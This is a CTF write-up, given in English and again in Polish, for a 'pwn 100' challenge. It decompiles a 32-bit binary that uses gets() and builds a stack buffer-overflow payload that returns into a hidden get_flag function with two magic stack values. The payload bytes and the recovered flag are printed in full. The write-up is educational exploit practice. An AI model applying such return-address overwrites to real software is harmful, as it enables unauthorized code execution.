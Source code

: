 # Get started (pwn 100)

###ENG
[PL](#pl-version)

In the task we get an ELF [binary](get_started) to work with.
Ret-dec results are:

```c
int main(int argc, char ** argv) {
    printf("Qual a palavrinha magica? ");
    int32_t str;
    gets((char *)&str);
    return 0;
}
```

So not much code is executed, but we can see that there is a blatant stack buffer overflow.
The task description hints that we don't need to get a shell here, everything is in the binary.
So we look at the disassembly and in fact there is:

```asm
; function: get_flag at 0x80489a0 -- 0x8048a1f
0x80489a0:   56                                 	push esi
0x80489a1:   83 ec 08                           	sub esp, 0x8
0x80489a4:   81 7c 24 10 4f d6 8c 30            	cmp dword [ esp + 0x10 ], 0x308cd64f
0x80489ac:   75 67                              	jnz 0x8048a15 <get_flag+0x75>
0x80489ae:   81 7c 24 14 d1 19 57 19            	cmp dword [ esp + 0x14 ], 0x195719d1
0x80489b6:   75 5d                              	jnz 0x8048a15 <get_flag+0x75>
0x80489b8:   c7 44 24 04 68 dd 0c 08            	mov dword [ esp + 0x4 ], 0x80cdd68 ; "rt"
0x80489c0:   c7 04 24 88 c3 0b 08               	mov dword [ esp ], 0x80bc388 ; "flag.txt"
0x80489c7:   e8 44 6c 00 00                     	call 0x804f610 <fopen>
0x80489cc:   89 c6                              	mov esi, eax
0x80489ce:   89 34 24                           	mov dword [ esp ], esi
0x80489d1:   e8 8a 87 00 00                     	call 0x8051160 <fgetc>
0x80489d6:   0f b6 c8                           	movzx ecx, al
0x80489d9:   81 f9 ff 00 00 00                  	cmp ecx, 0xff
0x80489df:   74 2c                              	jz 0x8048a0d <get_flag+0x6d>
0x80489e1:   0f be c8                           	movsx ecx, al
0x80489e4:   66                                 	
0x80489e5:   66                                 	
0x80489e6:   66                                 	
0x80489e7:   2e                                 	
0x80489e8:   0f 1f 84 00 00 00 00 00            	nop dword [ eax + eax * 0x0 + 0x0 ]
0x80489f0:   89 0c 24                           	mov dword [ esp ], ecx
0x80489f3:   e8 a8 6d 00 00                     	call 0x804f7a0 <putchar>
0x80489f8:   89 34 24                           	mov dword [ esp ], esi
0x80489fb:   e8 60 87 00 00                     	call 0x8051160 <fgetc>
0x8048a00:   0f be c8                           	movsx ecx, al
0x8048a03:   0f b6 c0                           	movzx eax, al
0x8048a06:   3d ff 00 00 00                     	cmp eax, 0xff
0x8048a0b:   75 e3                              	jnz 0x80489f0 <get_flag+0x50>
0x8048a0d:   89 34 24                           	mov dword [ esp ], esi
0x8048a10:   e8 bb 67 00 00                     	call 0x804f1d0 <fclose>
0x8048a15:   83 c4 08                           	add esp, 0x8
0x8048a18:   5e                                 	pop esi
0x8048a19:   c3                                 	ret
0x8048a1a:   66                                 	
0x8048a1b:   0f 1f 44 00 00                     	nop dword [ eax + eax * 0x0 + 0x0 ]
```

So we actually already have there a function which will read and print a flag if called.
`Checksec` tells us there are no canaries, so we should be able to use buffer overflow in order to overwrite return address from `main()` and jump to `get_flag` function.

Looking at `main` in assembly shows:

```asm
; function: main at 0x8048a20 -- 0x8048a4f
0x8048a20:   83 ec 3c                           	sub esp, 0x3c
0x8048a23:   c7 04 24 91 c3 0b 08               	mov dword [ esp ], 0x80bc391 ; "Qual a palavrinha magica? "
0x8048a2a:   e8 b1 66 00 00                     	call 0x804f0e0 <printf>
0x8048a2f:   8d 44 24 04                        	lea eax, dword [ esp + 0x4 ]
0x8048a33:   89 04 24                           	mov dword [ esp ], eax
0x8048a36:   e8 f5 6b 00 00                     	call 0x804f630 <function_804f630>
0x8048a3b:   31 c0                              	xor eax, eax
0x8048a3d:   83 c4 3c                           	add esp, 0x3c
0x8048a40:   c3                                 	ret
```

So we can see that stack frame was created with `sub esp, 0x3c` and therefore there are 60 bytes of stack allocated.
4 bytes go for the return address, so we need to overflow 56 bytes in order to get to the return pointer.

We want to change the pointer for address `0x80489a0` which is the start of `get_flag` function.
So the necessary payload is:

`("a"*56)+chr(0xa0)+chr(0x89)+chr(0x04)+chr(0x08)`

Keep in mind the reversed byte order for the addresses!
But this is not enough yet.
In the `get_flag` code there is:

```asm
0x80489a4:   81 7c 24 10 4f d6 8c 30            	cmp dword [ esp + 0x10 ], 0x308cd64f
0x80489ac:   75 67                              	jnz 0x8048a15 <get_flag+0x75>
0x80489ae:   81 7c 24 14 d1 19 57 19            	cmp dword [ esp + 0x14 ], 0x195719d1
0x80489b6:   75 5d                              	jnz 0x8048a15 <get_flag+0x75>
```

Suffice to say that if we take any of those 2 jumps the application will not read the flag for us.
So we have to make sure that those stack variables carry those specified values.

With the debugger we can quickly calculate that first of those values at `esp + 0x10` is just 4 bytes above the return pointer we just substituted, so we need to extend our payload to:

`("a"*56)+chr(0xa0)+chr(0x89)+chr(0x04)+chr(0x08)+"a"*4+chr(0x4f)+chr(0xd6)+chr(0x8c)+chr(0x30)`

to skip the first check.
The next one is at `esp + 0x14` so simply the next 4 bytes, and therefore the final payload requires:

`("a"*56)+chr(0xa0)+chr(0x89)+chr(0x04)+chr(0x08)+"a"*4+chr(0x4f)+chr(0xd6)+chr(0x8c)+chr(0x30)+""+chr(0xd1)+chr(0x19)+chr(0x57)+chr(0x19)`

Using the payload we get the flag: `3DS{b0f_pr4_c0m3c4r_n3}`

###PL version

W zadaniu dostajemy ELFową [binarke](get_started).
Wyniki ret-dec:

```c
int main(int argc, char ** argv) {
    printf("Qual a palavrinha magica? ");
    int32_t str;
    gets((char *)&str);
    return 0;
}
```

Niewiele wykonywanego kodu, ale widzimy że jest tam ewidentny stack buffer overflow.
Zadanie hintuje, że nie trzeba tu zdobywać shella bo wszystko jest już w binarce.
Więc zaglądamy do deasemblera a tam faktycznie:

```asm
; function: get_flag at 0x80489a0 -- 0x8048a1f
0x80489a0:   56                                 	push esi
0x80489a1:   83 ec 08                           	sub esp, 0x8
0x80489a4:   81 7c 24 10 4f d6 8c 30            	cmp dword [ esp + 0x10 ], 0x308cd64f
0x80489ac:   75 67                              	jnz 0x8048a15 <get_flag+0x75>
0x80489ae:   81 7c 24 14 d1 19 57 19            	cmp dword [ esp + 0x14 ], 0x195719d1
0x80489b6:   75 5d                              	jnz 0x8048a15 <get_flag+0x75>
0x80489b8:   c7 44 24 04 68 dd 0c 08            	mov dword [ esp + 0x4 ], 0x80cdd68 ; "rt"
0x80489c0:   c7 04 24 88 c3 0b 08               	mov dword [ esp ], 0x80bc388 ; "flag.txt"
0x80489c7:   e8 44 6c 00 00                     	call 0x804f610 <fopen>
0x80489cc:   89 c6                              	mov esi, eax
0x80489ce:   89 34 24                           	mov dword [ esp ], esi
0x80489d1:   e8 8a 87 00 00                     	call 0x8051160 <fgetc>
0x80489d6:   0f b6 c8                           	movzx ecx, al
0x80489d9:   81 f9 ff 00 00 00                  	cmp ecx, 0xff
0x80489df:   74 2c                              	jz 0x8048a0d <get_flag+0x6d>
0x80489e1:   0f be c8                           	movsx ecx, al
0x80489e4:   66                                 	
0x80489e5:   66                                 	
0x80489e6:   66                                 	
0x80489e7:   2e                                 	
0x80489e8:   0f 1f 84 00 00 00 00 00            	nop dword [ eax + eax * 0x0 + 0x0 ]
0x80489f0:   89 0c 24                           	mov dword [ esp ], ecx
0x80489f3:   e8 a8 6d 00 00                     	call 0x804f7a0 <putchar>
0x80489f8:   89 34 24                           	mov dword [ esp ], esi
0x80489fb:   e8 60 87 00 00                     	call 0x8051160 <fgetc>
0x8048a00:   0f be c8                           	movsx ecx, al
0x8048a03:   0f b6 c0                           	movzx eax, al
0x8048a06:   3d ff 00 00 00                     	cmp eax, 0xff
0x8048a0b:   75 e3                              	jnz 0x80489f0 <get_flag+0x50>
0x8048a0d:   89 34 24                           	mov dword [ esp ], esi
0x8048a10:   e8 bb 67 00 00                     	call 0x804f1d0 <fclose>
0x8048a15:   83 c4 08                           	add esp, 0x8
0x8048a18:   5e                                 	pop esi
0x8048a19:   c3                                 	ret
0x8048a1a:   66                                 	
0x8048a1b:   0f 1f 44 00 00                     	nop dword [ eax + eax * 0x0 + 0x0 ]
```

Więc faktycznie jest tu funkcja czytająca i wypisująca flagę.
`Checksec` mówi że nie ma na stosie kanarków, więc możemy bez problemów przepełnić bufor na stosie aby nadpisać adres powrotu z funkcji `main()` i skoczyć do funkcji `get_flag`.

Jeśli popatrzymy na disasm funkcji main, zobaczymy:

```asm
; function: main at 0x8048a20 -- 0x8048a4f
0x8048a20:   83 ec 3c                           	sub esp, 0x3c
0x8048a23:   c7 04 24 91 c3 0b 08               	mov dword [ esp ], 0x80bc391 ; "Qual a palavrinha magica? "
0x8048a2a:   e8 b1 66 00 00                     	call 0x804f0e0 <printf>
0x8048a2f:   8d 44 24 04                        	lea eax, dword [ esp + 0x4 ]
0x8048a33:   89 04 24                           	mov dword [ esp ], eax
0x8048a36:   e8 f5 6b 00 00                     	call 0x804f630 <function_804f630>
0x8048a3b:   31 c0                              	xor eax, eax
0x8048a3d:   83 c4 3c                           	add esp, 0x3c
0x8048a40:   c3                                 	ret
```

Więc widać że ramka stosu została utworzona przez `sub esp, 0x3c` a więc zaalokowano 60 bajtów na stosie.
4 potrzebne są na adres powrotu, więc musimy przepełnić bufor o 56 bajtów żeby dokopać się do adresu powrotu.

Chcemy zmienić ten adres na `0x80489a0`, czyli na początek funkcji `get_flag`.
To oznacza że potrzebny payload to:

`("a"*56)+chr(0xa0)+chr(0x89)+chr(0x04)+chr(0x08)`

Pamiętajmy o odwrotnej kolejności bajtów w adresach!
Ale to jeszcze nie wszystko.
W kodzie `get_flag` mamy:

```asm
0x80489a4:   81 7c 24 10 4f d6 8c 30            	cmp dword [ esp + 0x10 ], 0x308cd64f
0x80489ac:   75 67                              	jnz 0x8048a15 <get_flag+0x75>
0x80489ae:   81 7c 24 14 d1 19 57 19            	cmp dword [ esp + 0x14 ], 0x195719d1
0x80489b6:   75 5d                              	jnz 0x8048a15 <get_flag+0x75>
```

Jeśli wykonamy którykolwiek z tych 2 skoków flaga nie zostanie odczytana i wypisana.
Musimy więc tak ustawić zmienne na stosie, żeby ominąć te dwa warunki.

Za pomocą debuggera możemy szybko wyliczyć że pierwsza wartość z `esp + 0x10` jest tylko 4 bajty powyżej adresu powrotu z main który nadpisaliśmy, więc potrzebujemy rozszerzyć nasz payload do:

`("a"*56)+chr(0xa0)+chr(0x89)+chr(0x04)+chr(0x08)+"a"*4+chr(0x4f)+chr(0xd6)+chr(0x8c)+chr(0x30)`

aby ominąć pierwszy warunek.
Druga zmienna jest pod `esp + 0x14` więc to po prostu kolejne 4 bajty, więc payload rozszerzamy do:

`("a"*56)+chr(0xa0)+chr(0x89)+chr(0x04)+chr(0x08)+"a"*4+chr(0x4f)+chr(0xd6)+chr(0x8c)+chr(0x30)+""+chr(0xd1)+chr(0x19)+chr(0x57)+chr(0x19)`

Wysyłając taki zestaw danych dostajemy: `3DS{b0f_pr4_c0m3c4r_n3}`
